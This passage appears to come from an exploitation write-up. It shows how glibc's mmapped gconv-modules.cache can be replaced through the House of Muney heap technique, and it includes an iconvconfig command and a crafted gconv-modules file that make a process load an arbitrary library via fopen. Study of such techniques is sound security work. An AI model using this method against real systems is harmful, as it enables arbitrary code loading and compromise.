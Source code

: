```c

int
__gconv_load_cache (void)
{
  int fd;
  struct __stat64_t64 st;
  struct gconvcache_header *header;

  /* We cannot use the cache if the GCONV_PATH environment variable is
     set.  */
  __gconv_path_envvar = getenv ("GCONV_PATH");
  if (__gconv_path_envvar != NULL)
    return -1;

  /* See whether the cache file exists.  */
  fd = __open_nocancel (GCONV_MODULES_CACHE, O_RDONLY | O_CLOEXEC, 0);
  if (__builtin_expect (fd, 0) == -1)
    /* Not available.  */
    return -1;
  
  // ...
  gconv_cache = __mmap (NULL, cache_size, PROT_READ, MAP_SHARED, fd, 0);
  
  // ...

  return 0;
}
```



This file is actually mapped into memory using `mmap` ! Does that remind you of anything ?

> The principle is to corrupt the header of an in-use `mmaped` chunk with an arbitrary size, and then calling `free`  to `munmap` a greater size than the original chunk, causing the unmapping of other memory regions ! These unmapped regions can then be remapped by calling `mmap` once again.



Exactly ! We can abuse the mechanism of the House of Muney technique to replace the mmaped `gconv-modules.cache` file by our own !



To compile my own `gconv-modules.cache` file, I just used the `iconvconfig` utility that takes a `gconv-module` ASCII file and converts it to a valid `gconv-modules.cache` file : 

```shell
./iconvconfig --nostdlib --prefix='/' -o gconv-config.cache ./gconv-modules/
```



Basically this allows us to load any library inside the process address space, for example with the following `gconv-module` file, we can load dynamically `/usr/lib/x86_64-linux-gnu/libfoo.so` by calling `fopen(filename, "r,ccs=pwn")`

```
module  PWN//    INTERNAL      usr/lib/x86_64-linux-gnu/libfoo.so    1
module  INTERNAL    PWN//      usr/lib/x86_64-linux-gnu/libfoo.so    1
```

